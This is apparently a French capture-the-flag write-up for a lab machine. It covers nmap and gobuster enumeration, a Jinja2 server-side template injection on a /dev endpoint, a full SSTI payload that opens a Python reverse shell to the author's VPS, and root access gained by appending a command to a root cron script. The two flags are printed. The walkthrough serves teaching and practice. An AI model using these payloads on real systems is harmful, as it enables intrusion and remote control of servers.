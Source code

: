 # Unknow Box
## <b>Phase d'énumération :</b>

IP : <b> 167.99.244.212</b> (change à chaque reboot)


N'ayant qu'une IP et sachant evidemment au préalable qu'il n'y a pas de blueteam en face, mon premier reflexe est un scan nmap.


<b>Commande :</b> sudo nmap -A \<ip de la machine\>

<b>Output :</b> 
```
PORT     STATE    SERVICE    VERSION
21/tcp   open     tcpwrapped
22/tcp   open     ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:04:b8:8b:b6:8b:2b:10:41:16:0a:ab:18:84:67:68 (RSA)
|   256 9e:54:01:dc:8b:41:bb:9a:3e:6e:c1:3d:b2:ae:f7:71 (ECDSA)
|_  256 e8:50:86:5c:8b:ee:13:11:7e:e2:55:3d:7d:8a:ea:f1 (ED25519)
80/tcp   open     http       Werkzeug httpd 1.0.1 (Python 2.7.17)
|_http-server-header: Werkzeug/1.0.1 Python/2.7.17
|_http-title: OhNoMySite!
82/tcp   open     tcpwrapped
84/tcp   open     tcpwrapped
443/tcp  open     tcpwrapped
514/tcp  filtered shell
554/tcp  open     rtsp?
1723/tcp open     tcpwrapped
|_pptp-version: ERROR: Script execution failed (use -d to debug)
1971/tcp open     tcpwrapped
5060/tcp open     sip?
9999/tcp open     http       Werkzeug httpd 1.0.1 (Python 2.7.17)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```
Très bien, ça nous fait de la matière à tester.

Allons voir le site web sur le port 80. Je lance en parallèle un GOBUSTER.
<b>Commande :</b> 

```gobuster -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt dir --url \<IP>```
<b>Output :</b>

```/dev (status : 200)```
Dans ce directory, la page nous dit de lui donner un paramètre URL, essayons.
<b>URL :</b> http://ip/dev?url=test
<b>Output :</b> ```
Checking url : test!
Service is not working yet ....```

Tiens, on passe un argument dans l'url et ce même arg est print sur la page, il y a peut être une injection à tester, non ?

Testons celui ci : <b>?url={{7*7}}</b>, qui permet de tester la présence d'une SSTI (Server Side Template Injection) sur certains moteur.

Bingo, l'output est 49 ! Il y a donc bien une vulnérabilité.

Testons désormais : ?url={{7*'7'}}. L'ouput est alors : 7777777, ce qui nous indique que le moteur utilisé est jinja2 et qu'il est vulnérable.
(cf https://portswigger.net/web-security/server-side-template-injection).

Très bien, tentons d'obtenir un reverse shell avec notre petite SSTI, pour cela, allons voir ce que nous propose payloadAllTheThings.
Ne voulant pas ouvrir les ports de ma box, j'ai utilisé mon VPS pour recevoir le shell, mais d'autres manières était possibles, bien que moins pratiques selon moi.

<b>Payload utilisé :</b>

<b>```{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\"/bin/sh\");'").read().zfill(417)}}{%endif%}{% endfor %}```</b>

Désormais, on a notre shell sur le port indiqué :p. Naviguons jusqu'au /home de l'user que nous avons, cad OhNoMySite et on peut cat le user !
User : BC{e92d763a1c3689605785c94189db8eba}

## <b>Privilege Escalation :</b>

Sur ma liste imaginaire des choses à toujours vérifier, il y a crontab.
<b>Commande :</b> ```Cat /etc/crontab```

<b>Output (pertinent) :</b> 
```* * * * *       root    /opt/cleaning/clean.sh```

Les étoiles nous indiquent que ce script est toujours actif et nous savons aussi qu'il tourne sur l'utilisateur root.
On ne va pas s'embêter, pour avoir le root.txt, on va tout simplement tenter de le copier dans notre /home :).

<b>Payload :</b>  ```echo "cp /root/root.txt /home/OhNoMySite/root.txt" >>  /opt/cleaning/clean.sh```

Et le tour est joué, il n'y a plus qu'à cat root.txt.
(Bien entendu, dans le cadre d'une post-exploitation, cette façon de faire n'est pas très pratique, l'ideal serait de se renvoyer un shell via crontab ou de récupérer les accès ssh de l'user root si il y en a).

ROOT  : BC{15caf8a4b9d3cb5453dfa11810f0233a}

